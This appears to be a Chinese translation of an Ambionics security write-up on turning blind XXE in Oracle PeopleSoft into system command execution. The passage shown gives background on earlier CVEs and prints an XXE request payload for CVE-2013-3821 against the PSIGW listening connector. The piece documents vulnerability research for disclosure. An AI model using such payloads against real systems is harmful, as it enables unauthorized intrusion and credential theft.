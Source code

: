 > 原文链接: https://www.anquanke.com//post/id/106834 


# ORACLE PEOPLESOFT远程执行代码：将XXE盲注到SYSTEM SHELL


                                阅读量   
                                **95852**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：www.ambionics.io
                                <br>原文地址：[https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t0111977898dc371b19.png)](https://p3.ssl.qhimg.com/t0111977898dc371b19.png)



## Oracle PeopleSoft

几个月前，我有机会审核了几个Oracle PeopleSoft解决方案，包括PeopleSoft HRMS和PeopleTool。

`PeopleSoft`应用程序使用 了很多不同的端点，其中很 多端点未经过身份验 证。其中也有很多服务是使用了默认密码。导致它在安全方面非常不稳固。

本文以一种通用的方式将XXE载荷转换为系统运行命令（可能影响每个PeopleSoft版本）。



## XXE：访问本地网络

我们之前已经了解了多个XXE，例如CVE-2013-3800或CVE-2013-3821。最后记录的示例是ERPScan的CVE-2017-3548。通常可以利用它们提取PeopleSoft和WebLogic控制台的凭据。但是这两个控制台并没有提供一种简单的获取`shell`的方法。此外 ，我们假设服务设置有防火墙， 因此本文中我们无法从本地文件轻松获取 数据（假装）。

CVE-2013-3821:

```
POST /PSIGW/HttpListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE IBRequest [
&lt;!ENTITY x SYSTEM "http://localhost:51420"&gt;
]&gt;
&lt;IBRequest&gt;
   &lt;ExternalOperationName&gt;&amp;x;&lt;/ExternalOperationName&gt;
   &lt;OperationType/&gt;
   &lt;From&gt;&lt;RequestingNode/&gt;
      &lt;Password/&gt;
      &lt;OrigUser/&gt;
      &lt;OrigNode/&gt;
      &lt;OrigProcess/&gt;
      &lt;OrigTimeStamp/&gt;
   &lt;/From&gt;
```